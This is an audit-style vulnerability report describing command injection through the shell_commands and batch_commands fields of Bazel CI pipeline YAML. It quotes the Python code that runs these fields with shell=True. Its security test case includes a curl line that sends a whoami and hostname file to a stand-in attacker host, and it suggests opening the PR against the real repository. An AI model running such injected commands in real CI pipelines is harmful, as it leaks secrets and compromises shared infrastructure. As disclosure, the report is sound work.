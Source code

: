 * Vulnerability Name: Command Injection via `shell_commands`/`batch_commands` in YAML pipeline configuration
* Description:
    1. A threat actor creates a pull request to a Bazel project that uses Bazel CI.
    2. The pull request modifies the `.bazelci/presubmit.yml` or a similar pipeline configuration YAML file in the project repository.
    3. In the modified YAML file, the threat actor injects malicious commands into the `shell_commands` (for Linux/macOS) or `batch_commands` (for Windows) sections of a task. For example, they could add commands to exfiltrate secrets, modify source code, or compromise the CI environment.
    4. If the pull request is merged, the Bazel CI system will execute the pipeline defined in the modified YAML.
    5. During the execution of the affected task, the injected malicious commands will be executed on Bazel's CI infrastructure.
* Impact:
    - **High/Critical**: Arbitrary code execution on Bazel's CI infrastructure. This could lead to:
        - Leakage of sensitive information, such as secrets, API keys, and internal code.
        - Modification of Bazel's source code or build artifacts.
        - Denial of service of the Bazel CI system.
        - Compromise of downstream projects tested by Bazel CI.
* Vulnerability Rank: Critical
* Currently Implemented Mitigations:
    - **Code Review**: The README.md explicitly states "*Please vet external contributions carefully as they can execute arbitrary code on our CI machines*". This highlights the reliance on manual code review to prevent malicious YAML configurations from being merged. This mitigation is described in `/code/README.md` and `/code/buildkite/README.md` under the "Pull Requests" section.
* Missing Mitigations:
    - **Input Validation and Sanitization**: The system lacks automated validation and sanitization of the YAML pipeline configuration, specifically the `shell_commands` and `batch_commands` fields, to prevent injection of arbitrary commands.
    - **Principle of Least Privilege**: While not directly related to this vulnerability, limiting the privileges of the CI execution environment could reduce the impact of successful command injection.
    - **Automated Configuration Validation**: Implement automated checks that parse and validate the YAML configuration to detect potentially malicious commands or patterns before pipeline execution.
* Preconditions:
    - An external threat actor needs to create a pull request to a Bazel project using Bazel CI.
    - A project member with merge permissions must merge the malicious pull request without properly vetting the changes to the YAML configuration.
* Source Code Analysis:
    1. **YAML Configuration Parsing**: The `bazelci.py` script is responsible for parsing the YAML configuration files (`presubmit.yml`, etc.). The `fetch_configs` and `load_config` functions in `bazelci.py` handle YAML parsing using `yaml.safe_load`.
    2. **Command Execution**: The `execute_commands` function in `bazelci.py` reads the `shell_commands` or `batch_commands` from the parsed YAML configuration and executes them using `execute_shell_commands` or `execute_batch_commands`. These functions use `subprocess.run` with `shell=True` to execute the commands.

    ```python
    def execute_commands(...):
        ...
        if platform == "windows":
            execute_batch_commands(task_config.get("batch_commands", None), print_cmd_groups)
        else:
            execute_shell_commands(task_config.get("shell_commands", None), print_cmd_groups)

    def execute_shell_commands(commands, print_group=True, group_message=":bash: Setup (Shell Commands)"):
        ...
        shell_command = "\n".join(["set -e"] + commands)
        execute_command([shell_command], shell=True)

    def execute_batch_commands(commands, print_group=True, group_message=":batch: Setup (Batch Commands)"):
        ...
        batch_commands = "&".join(commands)
        return subprocess.run(batch_commands, shell=True, check=True, env=os.environ).returncode
    ```
    3. **Vulnerability**: The use of `shell=True` in `subprocess.run` within `execute_shell_commands` and `execute_batch_commands` makes the system vulnerable to command injection. If a malicious user can control the content of `shell_commands` or `batch_commands` in the YAML configuration, they can inject arbitrary shell commands that will be executed by the Buildkite agent.
* Security Test Case:
    1. Fork the `bazelbuild/continuous-integration` repository (or any Bazel project using this CI setup).
    2. Create a new branch in your forked repository.
    3. Create or modify a YAML pipeline configuration file (e.g., `.bazelci/presubmit.yml`).
    4. In a task definition within the YAML file, add a malicious command to `shell_commands` (or `batch_commands` for Windows). For example, to test command execution on Linux/macOS, add:

    ```yaml
    shell_commands:
      - echo "Vulnerability Test Started"
      - whoami > /tmp/whoami.txt
      - hostname >> /tmp/whoami.txt
      - curl -F "file=@/tmp/whoami.txt" https://attacker.example.com/exfiltrate
      - echo "Vulnerability Test Completed"
    ```
    Replace `https://attacker.example.com/exfiltrate` with a URL you control to capture the exfiltrated data. For Windows, use `batch_commands` and equivalent Windows commands.
    5. Create a pull request with this branch against the original repository.
    6. If you have permissions to trigger a Buildkite pipeline for the target repository, trigger a build for your pull request. Otherwise, wait for a project member to trigger or merge the PR.
    7. After the pipeline runs, check the logs for the task where you injected the command. If the vulnerability is present, you should see the output of `whoami` and `hostname` in the logs, and your attacker-controlled server should receive a request containing the `/tmp/whoami.txt` file content.
    8. Alternatively, if you don't want to exfiltrate data, a simpler test case is to just run `whoami` or `hostname` and check if the output appears in the Buildkite logs for the step. For example:
    ```yaml
    shell_commands:
      - echo "Current user:"
      - whoami
      - echo "Hostname:"
      - hostname
    ```
    This test case will demonstrate arbitrary command execution on the CI machines, confirming the vulnerability.